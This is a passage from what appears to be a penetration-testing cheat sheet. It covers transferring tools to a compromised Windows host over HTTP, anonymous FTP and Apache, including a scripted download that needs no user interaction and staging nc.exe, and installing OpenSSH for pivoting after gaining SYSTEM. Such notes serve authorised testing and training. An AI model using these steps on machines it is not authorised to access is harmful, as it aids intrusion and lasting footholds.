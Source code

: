 ```shell
python -m SimpleHTTPServer 80
```

#### FTP

You need to create a FTP server:

- Server Linux
  Allow anonymous

```shell
python -m pyftpdlib -p 21 -u anonymous -P anonymous
```

- Windows Client

```shell
ftp
open target_ip port
open 192.168.1.22 21
```

We can simply run ftp `-s:ftp_commands.txt` and we can download a file with no user interaction.

Like this:

```shell
C:\Users\kitsunesec\Desktop>echo open 10.9.122.8>ftp_commands.txt
C:\Users\kitsunesec\Desktop>echo anonymous>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>echo whatever>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>ftp -s:ftp_commands.txt
```

#### Apache Server

- server: put your files into `/var/www/html`:

```shell
cp nc.exe /var/www/html
systemctl start apache2
```

- client: get via web browser, wget or powershell...

### Windows Pivoting

#### Openssh for Tunneling

Once you got SYSTEM on the target machine. download: [openssh_for_windows](https://github.com/PowerShell/Win32-OpenSSH/releases):

```powershell
powershell -command "Expand-Archive 'C:\<path-to-zipped-openssh>\openssh.zip' c:\<path-to-where-you-whereever-you-want\"
```

Then install it:

```powershell
powershell -ExecutionPolicy Bypass -File c:\<path-to-unzipped-openssh-folder>\install-sshd.ps1
```
